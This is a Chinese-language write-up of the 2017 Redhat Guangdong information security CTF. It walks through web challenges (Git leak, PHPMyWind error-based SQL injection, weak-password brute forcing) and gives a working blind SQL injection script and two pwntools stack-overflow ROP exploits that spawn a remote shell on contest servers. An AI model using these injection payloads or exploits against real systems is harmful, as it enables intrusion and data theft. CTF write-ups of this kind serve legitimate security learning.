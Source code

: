 ```yaml
---
title: 2017 Redhat广东省信息安全竞赛 Writeup
tags: [write-up]
date: 2017-05-07 10:29
---
```

2017 Redhat广东省信息安全竞赛 Writeup
<!-- more -->
<link rel="stylesheet" type="text/css" href="http://static.blog.csdn.net/css/csdn_blog_detail.min.css">
<div class="markdown_views"><h1 id="web">WEB</h1>
<h2 id="0x1-刮刮乐">0x1 刮刮乐</h2>
<p><img alt="这里写图片描述" src="http://img.blog.csdn.net/20170507100942803?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
通过文件扫描找到有文件泄露 <br>
利用Githack工具就可以把文件下下来 <br>
flag{027ea8c2-7be2-4cec-aca3-b6ba400759e8}</br></br></br></img></p>
<h2 id="0x2-phpmywind">0x2 PHPMyWIND</h2>
<p>这题是道综合性网站，可以查到现有的漏洞，一点都没有变 <br>
<a href="http://0day5.com/archives/1442/">原题</a> <br>
<img alt="这里写图片描述" src="http://img.blog.csdn.net/20170507101214603?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""> <br>
根据报错注入，显示的md5找到对应的值就是密码</br></img></br></br></p>
<p><img alt="这里写图片描述" src="http://img.blog.csdn.net/20170507101600544?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></p>
<p>访问其中的flag4ae482cda6e.txt即可得到flag</p>
<h2 id="0x3-后台">0x3 后台</h2>
<p>题目提示了有弱口令 <br>
首先生成字典</br></p>
<pre class="prettyprint"><code class=" hljs livecodeserver">f = <span class="hljs-built_in">open</span>(<span class="hljs-string">'1.txt'</span>,<span class="hljs-string">'w'</span>)
<span class="hljs-keyword">for</span> i <span class="hljs-operator">in</span> range(<span class="hljs-number">1</span>,<span class="hljs-number">13</span>):
    <span class="hljs-keyword">for</span> j <span class="hljs-operator">in</span> range(<span class="hljs-number">1</span>,<span class="hljs-number">32</span>):
        f.<span class="hljs-built_in">write</span>(<span class="hljs-string">'2017'</span>+<span class="hljs-string">'0'</span>*(<span class="hljs-number">2</span>-<span class="hljs-built_in">len</span>(str(i)))+str(i)+<span class="hljs-string">'0'</span>*(<span class="hljs-number">2</span>-<span class="hljs-built_in">len</span>(str(j)))+str(j)+<span class="hljs-string">'\n'</span>)</code></pre>
<p>利用burpsuit爆破</p>
<p><img alt="这里写图片描述" src="http://img.blog.csdn.net/20170507102609034?watermark/2/text/aHR0cDovL2Jsb2cuY3Nkbi5uZXQvcXFfMzE0ODExODc=/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70/gravity/SouthEast" title=""/></p>
<h2 id="0x4-thinkseeker">0x4  thinkseeker</h2>
<p>扫一下有index.php~源代码 <br>
1、用with rollup过前面两个if  <br>
2、用盲注找到flag  <br>
关于第一点在实验吧有原题：<a href="http://www.shiyanbar.com/ctf/1940">http://www.shiyanbar.com/ctf/1940</a> <br>
过滤方法稍有不同，用操作符代替关键字即可。token使用变量覆盖就可以。  <br>
第二点就是infoid这个参数有盲注，跑脚本可以拿到flag。  <br>
最后贴上注入脚本</br></br></br></br></br></br></p>
<pre class="prettyprint"><code class=" hljs perl">import requests
string = <span class="hljs-string">''</span>
dic = <span class="hljs-string">"flag{}abcdef1234567890"</span>
<span class="hljs-keyword">for</span> i in range(<span class="hljs-number">1</span>,<span class="hljs-number">40</span>):
    <span class="hljs-keyword">for</span> j in dic:
        url=<span class="hljs-string">"http://106.75.117.4:3083/?token=21232f297a57a5a743894a0e4a801fc3&amp;infoid=1<span class="hljs-variable">%0a</span><span class="hljs-variable">%26</span><span class="hljs-variable">%26</span><span class="hljs-variable">%0aascii</span>(substr((select<span class="hljs-variable">%0agroup_concat</span>(flag)<span class="hljs-variable">%0afrom</span><span class="hljs-variable">%0aflag</span>)from({})for(1)))={}&amp;userid=1<span class="hljs-variable">%0a</span>||<span class="hljs-variable">%0a1</span><span class="hljs-variable">%0agroup</span><span class="hljs-variable">%0aby</span><span class="hljs-variable">%0apassword</span><span class="hljs-variable">%0awith</span><span class="hljs-variable">%0arollup</span><span class="hljs-variable">%0alimit</span><span class="hljs-variable">%0a1</span><span class="hljs-variable">%0aoffset</span><span class="hljs-variable">%0a1</span>&amp;password="</span>.<span class="hljs-keyword">format</span>(i,<span class="hljs-keyword">ord</span>(j))
        <span class="hljs-keyword">s</span>=requests.get(url=url)
        content=<span class="hljs-keyword">s</span>.content
        <span class="hljs-keyword">if</span> <span class="hljs-string">"flag is in flag!"</span> in content:
            string+=j
            <span class="hljs-keyword">break</span>
    <span class="hljs-keyword">print</span> string</code></pre>
<h1 id="pwn">PWN</h1>
<h2 id="pwn1">PWN1</h2>
<p>简单的栈溢出，通过构造rop执行system，直接写出脚本</p>
<pre class="prettyprint"><code class=" hljs python"><span class="hljs-keyword">from</span> pwn <span class="hljs-keyword">import</span> *
pwn1 = ELF(<span class="hljs-string">'redhat/pwn1'</span>)
sh = remote(<span class="hljs-string">'106.75.93.221'</span>,  <span class="hljs-number">10000</span>)
padding = <span class="hljs-string">'A'</span>*(<span class="hljs-number">52</span>)<span class="hljs-comment">#长度爆出来的</span>
system_addr = p32(pwn1.plt[<span class="hljs-string">'system'</span>])
scanf_addr = p32(<span class="hljs-number">0x08048410</span>)
bss_addr = p32(<span class="hljs-number">0x0804A040</span>)
args = p32(<span class="hljs-number">0x08048629</span>)+ bss_addr
rop = p32(<span class="hljs-number">0x080485ee</span>)
sh.recvline()
payload = padding+scanf_addr+rop+args+system_addr+<span class="hljs-string">'a'</span>*<span class="hljs-number">4</span>+bss_addr
sh.sendline(payload)
sh.sendline(<span class="hljs-string">'/bin/sh\x00'</span>)
sh.interactive()</code></pre>
<p>还有一种较为简单的方法，直接利用pwntools自带的工具</p>
<pre class="prettyprint"><code class=" hljs vbnet"><span class="hljs-keyword">from</span> pwn import *
<span class="hljs-preprocessor">#context.log_level = 'debug'</span>
<span class="hljs-keyword">binary</span> = ELF(<span class="hljs-comment">'./redhat/pwn1')</span>
p = remote(<span class="hljs-comment">'106.75.93.221',  10000)</span>
p.recvline()
rop = ROP(<span class="hljs-keyword">binary</span>)
rop.<span class="hljs-keyword">call</span>(<span class="hljs-number">0x08048410</span>,(<span class="hljs-number">0x08048629</span>, <span class="hljs-number">0x0804A040</span>))
rop.system(<span class="hljs-number">0x0804A040</span>)
payload = str(rop)
p.sendline(<span class="hljs-comment">'a'*52 + payload )</span>
p.sendline(<span class="hljs-comment">'/bin/sh')</span>
p.interactive()</code></pre></div>